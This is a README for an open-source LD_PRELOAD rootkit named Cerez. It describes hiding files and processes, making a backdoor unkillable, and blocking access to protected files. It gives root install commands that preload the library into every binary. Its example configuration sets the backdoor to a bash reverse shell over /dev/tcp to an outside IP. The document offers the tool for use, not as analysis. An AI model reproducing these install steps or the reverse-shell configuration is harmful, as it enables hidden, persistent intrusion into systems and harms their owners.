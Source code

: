 <h1 align="center">
  <img src="assets/showcase.png"/>  
  <br>
  <br>
  Cerez 😈 Simple userland LD_PRELOAD rootkit
</h1>

Cerez is a configurable userland `LD_PRELOAD` rootkit, by installing it 
into `/etc/ld.so.preload`, you can preload it before every binary.
It can protect/hide your backdoor as well other files you want 
hidden. It does so by overwriting (g)libc functions such as `open`, `unlinkat` etc.

## Features
- ✔ Hides files in the file system 
- ✔ Hides your backdoor in the process list 
- ❌ Hides connections in the network list
- ✔ Makes your backdoor unkillable 
- ✔ Makes files unaccessable

## Install 
> [!Warning]
> Don't forget to edit `cerez.cfg` before install 

### You will need to install `build-essential` and `libconfig` to compile!
You can install it with `apt` on debian based systems:
```bash
apt update && apt install build-essential libconfig-dev
```
You also may want to install git in order to obtain the source.

To compile the rootkit, run the following commands:
as **ROOT**:
```bash
git clone https://github.com/ngn13/cerez.git && cd cerez
make && make install
cd .. && rm -rf cerez
```
These commands will compile and install the rootkit and the configuration
to the system.

## Config (`/etc/cerez.cfg`)
Configuration is (really) simple, there are only 3 options:

- `backdoor`: Your backdoor command, this will be run by the rootkit everytime a program starts (if its not already running). Your
backdoor will be hidden in the process list. It will also be unkillable.
- `shell`: The shell that will be used to run the `backdoor` command.
- `hidden`: A list files that you want to hide and protect. These files will be hidden in directory listings and any attempt access
them will fail, and a fake file will be accessed instead.

Here is an example configuration:
```
backdoor = "bash -i >& /dev/tcp/<ip>/1234 0>&1"
shell = "/bin/bash"
hidden = (
  { path = "/etc/cerez.cfg" },
  { path = "/etc/ld.so.preload" },
  { path = "/path/to/your/super/secret/file" }
)
```
Note that after hiding `/etc/cerez.cfg` **you won't be able to access it unless you are running as the backdoor process**.

## Resources
To learn more about `LD_PRELOAD` rootkits, I highly recommend you read [this
article](https://compilepeace.medium.com/memory-malware-part-0x2-writing-userland-rootkits-via-ld-preload-30121c8343d5).
I also left some comments in the [loader.c](rootkit/loader.c) so you can go ahead and read it.

Also this is free (as in freedom) software! So feel free to fork and improve the project.
If you are interested, you can also contribute back to the project by creaint an issue or a pull request.
